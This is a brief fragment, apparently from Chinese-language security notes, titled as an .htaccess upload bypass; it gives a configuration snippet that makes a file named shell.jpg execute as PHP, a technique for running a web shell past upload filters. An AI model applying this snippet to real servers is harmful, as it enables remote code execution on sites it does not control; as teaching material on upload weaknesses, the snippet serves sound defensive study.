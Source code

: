 ### `.htaccess`上传绕过
```php
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```